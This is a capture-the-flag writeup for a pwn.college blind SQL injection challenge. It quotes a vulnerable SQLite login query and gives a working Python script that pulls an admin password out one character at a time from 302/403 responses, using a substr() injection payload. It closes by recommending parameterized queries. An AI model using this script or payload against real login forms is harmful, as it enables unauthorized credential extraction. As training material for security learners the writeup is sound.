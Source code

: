 ````markdown
# 🛡️ pwn.college SQLi Challenge Writeup — Blind SQL Injection

## 🔍 Challenge Description

We're given a web server running on `http://challenge.localhost:80` which has a login form. The server uses **SQLite** and inserts an `admin` user with the password set to the **flag**, read from `/flag`. 

The server either:
- Returns **302 redirect** if login is successful
- Returns **403 forbidden** if login fails

There is **no output of the query**, and the database (SQLite) cannot execute system commands.

---

## 🧠 Code Analysis and Vulnerability

From the provided source code:

```python
query = f"SELECT rowid, * FROM users WHERE username = '{username}' AND password = '{password}'"
````

We see:

* User input is directly inserted into the SQL query (❌ vulnerable to SQL Injection)
* The only way to infer success/failure is via HTTP status code (302 vs. 403)
* The password for `admin` is not known — it's the flag

So, our strategy:

* Inject an SQL condition that checks **one character at a time** of the password using `substr(...)`
* Use the HTTP response to confirm whether the condition is true
* Repeat until we extract the full flag

---

## 🧪 Exploit Script (Blind Boolean SQL Injection)

```python
import requests
import string

url = "http://challenge.localhost"
charset = string.printable  # Optionally reduce this for speed
flag = ""
i = 1

while True:
    found = False
    for c in charset:
        payload = f"admin' AND substr(password, {i}, 1) = '{c}' --"
        r = requests.post(url, data={"username": payload, "password": "x"}, allow_redirects=False)

        if r.status_code == 302:
            flag += c
            print(f"[+] Found character {i}: {c}")
            i += 1
            found = True
            break

    if not found:
        print("[*] No more characters found. Flag extraction complete.")
        break

print("Flag:", flag)
```

---

## 🏁 Result

Running the script reveals the flag one character at a time, using the application's login behavior to leak data indirectly.

---

## ✅ Takeaways

* **Blind SQL Injection** can leak data without visible output — even with just a true/false signal
* Analyzing the code shows where user input is unsafely used
* `substr()` is very effective in character-by-character flag extraction
* Always use **parameterized SQL queries** to avoid these bugs

```